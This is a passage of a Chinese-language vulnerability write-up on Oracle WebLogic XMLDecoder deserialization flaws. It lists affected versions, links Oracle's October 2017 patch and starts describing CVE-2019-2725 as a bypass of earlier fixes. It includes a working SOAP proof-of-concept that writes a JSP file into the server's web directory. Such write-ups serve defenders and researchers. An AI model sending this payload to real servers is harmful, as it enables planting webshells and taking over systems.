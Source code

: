 ##### 影响版本

```php
10.3.6.0
12.1.3.0
12.2.1.0
12.2.1.1 
12.2.1.2
```

##### 漏洞复现

利用的poc:

```php
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
 <soapenv:Header>
 <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
 <java>
 <object class="java.io.PrintWriter">
 <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/zcc3.jsp</string>
 <void method="println">
 <string>
 <![CDATA[
 <% out.print("zcc1 hello"); %>
 ]]>
 </string>
 </void>
 <void method="close"/>
 </object>
 </java>
 </work:WorkContext>
 </soapenv:Header>
 <soapenv:Body/>
</soapenv:Envelope>
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2ba9919aeb8ac97b539fd4cf2f54d04944651b1a.png)

![image-20210810141515224](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-100ed6496f3b78a1c12b44224d22dcc6e98b6b8e.png)

##### 安全防护

前往Oracle官网下载10月份所提供的安全补丁：

<http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html>

#### 3.wls-wsat反序列化远程代码执行漏洞 CVE-2019-2725

##### 漏洞简介

此漏洞实际上是CVE-2017-10271的又一入口，CVE-2017-3506的补丁过滤了object；CVE-2017-10271的补丁过滤了new，method标签，且void后面只能跟index，array后面只能跟byte类型的class；CVE-2019-2725的补丁过滤了class，限制了array标签中的byte长度。

##### 影响组件
